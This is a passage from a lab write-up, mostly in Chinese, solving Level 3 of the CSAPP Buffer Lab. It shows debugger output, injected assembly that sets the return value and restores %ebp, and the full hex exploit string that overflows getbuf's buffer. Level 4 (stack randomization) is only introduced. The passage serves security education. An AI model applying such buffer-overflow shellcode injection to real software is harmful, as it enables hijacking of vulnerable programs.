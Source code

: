   

* #### Level 3: Dynamite

  ```
  Your job for thislevel is to supply an exploit string that will cause getbuf to return yourcookie back to test, rather than the value 1. You can see in the code for testthat this will cause the program to go“Boom!.” Your exploit code should set your cookie asthe return value, restore any corrupted state, push the correct return locationon the stack, and execute a ret instruction to really return to test.
  ```

  getbuf返回到test，返回值为cookie，而且要恢复损坏的状态

  在getbuf断，查看%ebp和%ebp+4的值

  ```
  pwndbg> x $ebp
  0x55683530 <_reserved+1037616>:	0x55683560
  pwndbg> x $ebp+4
  0x55683534 <_reserved+1037620>:	0x08048dbe
  ```

  构造代码，修改返回值为cookie，恢复ebp原来的状态，跳转到原来的地址

  ```assembly
  push $0x08048dbe
  mov $0x67f4b7b0,%eax
  mov $0x55683560,%ebp
  ret
  ```

  ```
     0:	68 be 8d 04 08       	pushq  $0x8048dbe
     5:	b8 b0 b7 f4 67       	mov    $0x67f4b7b0,%eax
     a:	bd 60 35 68 55       	mov    $0x55683560,%ebp
     f:	c3                   	retq  
  ```

  ```
  68 be 8d 04 08 b8 b0 b7 f4 67 bd 60 35 68 55 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 08 35 68 55
  ```

  ![3](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/CSAPP-Buffer%20Lab/3.png)

  

* #### Level4: Nitroglycerin

  运行bufbomb时加上参数-n，其余要求和level3一样

  加上-n函数变为testn和getbufn，栈随机化，会调用5次testn，五次都要满足条件
